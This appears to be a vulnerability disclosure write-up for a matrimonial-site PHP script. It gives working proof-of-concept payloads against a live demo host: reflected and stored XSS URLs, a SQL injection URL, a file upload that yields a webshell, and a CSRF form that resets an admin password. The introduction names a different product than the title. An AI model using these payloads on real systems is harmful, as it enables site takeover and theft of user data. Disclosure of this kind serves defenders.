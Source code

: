 ### Muslim Matrimonial Script- the lastest version - SQL Injection/Stored-XSS/Reflect-XSS/Arbitrary-File-Uploading/CSRF

Well,  when I pentest the official demo site of Readymade Video Sharing Script, I found some vulnerabilities here.


#### XSS:

##### Reflect-XSS

##### XSS1

```
http://74.124.215.220/~projclient/client/muslim-matrimony/admin/event_edit.php?edit_id=17%27%22%3E123%3Cimg%20src=x%20onerror=console.log(/xss/)%3E123%3C%27%22
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Muslim-Matrimonial-Script/xss1.png)

##### XSS2

```
http://74.124.215.220/~projclient/client/muslim-matrimony/admin/slider_edit.php?edit_id=1%27%22%3E123%3Cimg%20src=x%20onerror=console.log(/xss2/)%3E123%3C%27%22
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Muslim-Matrimonial-Script/xss2.png)

##### XSS3

```
http://74.124.215.220/~projclient/client/muslim-matrimony/admin/state_view.php?cou_id=%27%22%3E123%3Cimg%20src=x%20onerror=console.log(/xss3/)%3E123%3C%27%22
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Muslim-Matrimonial-Script/xss3.png)

##### XSS4

```
http://74.124.215.220/~projclient/client/muslim-matrimony/admin/caste_view.php?comm_id=46%27%22%3E123%3Cimg%20src=x%20onerror=console.log(/xss4/)%3E123%3C%27%22
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Muslim-Matrimonial-Script/xss4.png)


##### Stored-XSS


```
http://74.124.215.220/~projclient/client/muslim-matrimony/admin/event_add.php
```

POST parameters:

```
------WebKitFormBoundarypSOX4YzB8lLca9QI
Content-Disposition: form-data; name="event_title"

test'"><svg/onload=alert(/xss/)><'"
```

![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Muslim-Matrimonial-Script/sxss.png)


#### SQL Injection:

##### sqli

The original parameter:
```
http://74.124.215.220/~projclient/client/muslim-matrimony/view-rofile.php?mem_id=NDk=
```

BaseDecode the parameter, and add payload:

```
http://74.124.215.220/~projclient/client/muslim-matrimony/view-rofile.php?mem_id=49' AND 6882=6882 AND 'qpug'='qpug
```

Then we can use the tamper script to attack the weak link.


![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Muslim-Matrimonial-Script/sqli.png)


#### Arbitrary-File-Uploading

There is an arbitrary-file-uploading, we can upload any type files with evil content.

Weak url:
```
http://74.124.215.220/~projclient/client/muslim-matrimony/admin/mydetails_edit.php?u_id=xxx
```

Post parameter:
```
------WebKitFormBoundary6LBE6fQ0BdnKYrgo
Content-Disposition: form-data; name="user_photo"; filename="xxx.xxx"
Content-Type: application/octet-stream

evil-content
```



Then we'll get a evil file here:

```
http://74.124.215.220/~projclient/client/muslim-matrimony/uploads/xxx.xxx
```

Run command in the webshell:
![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Muslim-Matrimonial-Script/upload1.png)

Operate the folders and files through the webshell:
![image](https://raw.githubusercontent.com/d4wner/Vulnerabilities-Report/master/pic/Muslim-Matrimonial-Script/upload2.png)



#### CSRF

We can use csrf attack to cheat the user to change sensitive settings in the user panel, even change the password or insert evil content into it.

poc:

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://74.124.215.220/~projclient/client/muslim-matrimony/admin/subadmin_edit.php?edit_id=9999" method="POST">
      <input type="hidden" name="sub&#95;id" value="9999" />
      <input type="hidden" name="name" value="test123" />
      <input type="hidden" name="email" value="parguinet&#64;gmail&#46;com" />
      <input type="hidden" name="pass" value="666" />
      <input type="hidden" name="cpass" value="666" />
      <input type="hidden" name="submit" value="Update" />
      <input type="submit" value="Submit request" />
    </form>
  </body>


```

This vulnerability does not need evil attacker to login into the user panel.

